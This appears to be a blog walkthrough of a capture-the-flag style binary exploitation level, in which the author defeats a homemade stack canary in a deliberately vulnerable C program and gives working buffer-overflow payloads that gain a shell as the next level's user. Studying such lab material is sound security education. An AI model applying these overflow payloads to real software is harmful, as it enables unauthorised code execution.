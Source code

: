 ![Logo](/assets/images/belts-blue.png)


In this post we'll continue with level5, the last one from **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing again with more buffer overflow issues but we'll have to defeat a homemade implementation of buffer overflow detection. This is the most interesting level so far and it hides yet another logical vulnerability that will allow us to defeat the random stack canary.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level5
```

NX is disabled and again there is no stack canary. Why enable the stack cookie when we can do it ourselves, right?. Let's verify whether the stack is executable:

```
$ readelf -lW level5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int canary;

void __attribute__ ((constructor)) generate_canary() {
        FILE* fp = fopen("/dev/urandom", "r");
        fread(&canary, 4, 1, fp);                                [1]      
}

void hello(char* name) {
        int cookie = canary;
        int i = 0x12345;
        char* msg = malloc(128);
        char buf[12];

        strcpy(buf, name);                                       [4]
        sprintf(msg, "%s, it's good to see you!\n", buf);        [5]

        printf("%s", msg);

        if (cookie != canary) {                                  [3]        
                printf("*** stack smashing detected ***\n");

                abort();
        }
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        hello(argv[1]);                                          [2]

        return 0;
}
```

First let us understand how the program works:
* We have one constructor that generates a random 4 bytes canary by reading **/dev/urandom** (**[1]**)
* The **Main** function accepts one input parameter which is passed to the **hello** function (**[2]**).
* The **hello** function assigns the value of the canary to the first variable on the stack - **cookie**. 
* In case any buffer overflow would try to overwrite the return address, it would have to overwrite also the cookie. But this would trigger a program termination with an error (**[3]**). Not good.

Now let's see how we can break it. Again a stack layout of the function is very useful. We need to understand where each variable is located and which ones we can overwrite. Below I've renamed the variables in IDA to reflect the source code from level5.c:

![Stack layout](/assets/images/bm5-1.png)

* The **strcpy** call at **[4]** can overwrite the address of the newly allocated memory block in **msg**, which is located immediately after the buffer.
* The **sprintf** call at **[5]** will write from **buf** to the address we've just overwritten by the call before.
* Basically we have a primitive that allows us to overwrite an arbitrary memory address.

## 2 - Exploit

### Overwriting the canary

Because the canary is stored in a global variable, in a writeable section (check the permissions of **.bss** section with `readelf -S level5`), we can overwrite it:

![Global variable](/assets/images/bm5-2.png)

Then we'll supply our overwritten canary value in the buffer and carry on the exploitation as usual. Based on the observation above, a simple payload that just overwrites the canary with 0x01020304 would look like this:
```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" |
```

Explanation:
* At offset 12 in the payload we place the address that will overwrite (at **[4]**) the pointer generated by **malloc**
* First 4 bytes of the payload will be written to that address at **[5]**

We can test this in GDB and make sure we got this first step right:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08"')
```

### Overwriting the return address

Building on the findings from the previous point, the next payload achieves full control of EIP, without triggering the error message:

* Overwrites the canary, as above
* Sends a buffer with the correct overwritten canary value, which will overwrite the **cookie** variable
* Overwrites the return address from **hello** function with "XXXX"

```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" | JUNK (4 bytes) | "\x04\x03\x02\x01" | JUNK (12 bytes) | RET | 
```

If it's not clear why, check again the stack layout from the image above. Basically the 4 bytes of junk represents the **i** variable, next we have the value that will overwrite **cookie** (has to be the same as the canary), 12 more junk bytes then the value for the return address.

Again, test this first in GDB:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" + "\x01\x02\x03\x04" + 12*"A" + "XXXX"')
```

### Shellcode

In this case we can use the same approach as for levels 1-3 and place a shellcode spawning /bin/dash into an environment variable. Check [level1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html) for more details.

## 3 - Profit

```
$ /levels/level5  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" +  "\x04\x03\x02\x01" + 12*"A" + "\xd6\xd8\xff\xff"')
AAAAAAAA@JUNKAAAAAAAAAAAA���, it's good to see you!
$ id
uid=1006(level5) gid=1006(level5) euid=1007(level6) groups=1007(level6),1006(level5)
$ /home/level6/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved the last level!. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level5 @ binary mastery ensign)
   * the exploit
```

This was the last level in this challenge set. Next set of levels, [Binary Mastery: Lieutenant](https://www.certifiedsecure.com/certification/view/37) will be even more fun :) as they include modern day vulnerabilities and mitigation techniques!

